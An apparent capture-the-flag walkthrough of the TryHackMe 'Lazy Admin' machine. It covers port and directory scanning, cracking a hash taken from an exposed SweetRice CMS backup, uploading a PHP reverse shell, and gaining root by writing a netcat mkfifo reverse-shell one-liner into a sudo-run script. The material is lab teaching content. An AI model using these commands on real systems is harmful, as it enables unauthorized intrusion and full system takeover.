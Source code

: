 # TryHackMe Lazy Admin Walkthrough

## 1. Enumeration

### Nmap Scan

```sh
nmap -p- -sV -sC -T4 -o nmap-res 10.10.18.100

```
**Results:**
- **22/tcp** - OpenSSH 7.2p2 (Ubuntu Linux)
- **80/tcp** - Apache 2.4.18 (Ubuntu)

### Gobuster Directory Scan
```sh
gobuster dir -u http://10.10.18.100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt

```
**Found Directories:**
- `/content/`
- `/server-status/ (403 Forbidden)`

```sh
gobuster dir -u http://10.10.18.100/content/ -w /usr/share/wordlists/dirb/common.txt -x php,html,txt

```
**Also searchsploit will revel vuln on backups in the /inc/mysql_backup**


**Found Directories in `/content/`**:
- `/content/as/` (Login Page)
- `/content/inc/` (Contains MySQL Backup)

## 2. Exploiting SweetRice CMS

### Extracting Credentials from MySQL Backup
```sh
cat backup.sql | grep "passwd"
```
**Found Hash:** `42f749ade7f9e195bf475f37a44cafcb`

```sh
hashcat -m 0 hash.txt rockyou.txt --force
```
**Recovered Password:** `Password123`
**Username:** `manager`

### Logging into SweetRice Admin Panel
- **URL:** `http://10.10.18.100/content/as/`
- **Credentials:**
  ```plaintext
  Username: manager
  Password: Password123
  ```
- **Enable URL Rewrite & Change Site Status**
- **Upload Reverse Shell via Post Option**
  ```sh
  nc -nvlp 4444
  ```
- **Execute Shell:** `http://10.10.18.100/content/attachment/shell.php5`

## 3. Privilege Escalation

### Checking Users with Shell Access
```sh
awk -F: '$NF ~ /bash$/ {print $1}' /etc/passwd
```
**Users Found:**
- `root`
- `itguy`
- `guest-3myc2b`

### Checking `sudo -l` Permissions
```sh
sudo -l
```
**Permissions:**
```plaintext
(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```
- This script calls `/etc/copy.sh`

### Modifying `/etc/copy.sh` to Get a Root Shell
```sh
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <local-ip> 5554 >/tmp/f' > /etc/copy.sh
```
- **Replace `<local-ip>` with Attack Machine IP**
- **Start Netcat Listener on Kali:**
  ```sh
  nc -lvnp 5554
  ```
- **Execute the Script as Root:**
  ```sh
  /usr/bin/perl /home/itguy/backup.pl
  ```

## 4. Root Shell Access

### Confirm Root
```sh
whoami
id
cat /root/root.txt
```

## User flag is in itguy/user.txt

### Upgrade Shell
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

**Walkthrough Complete!** 🚀


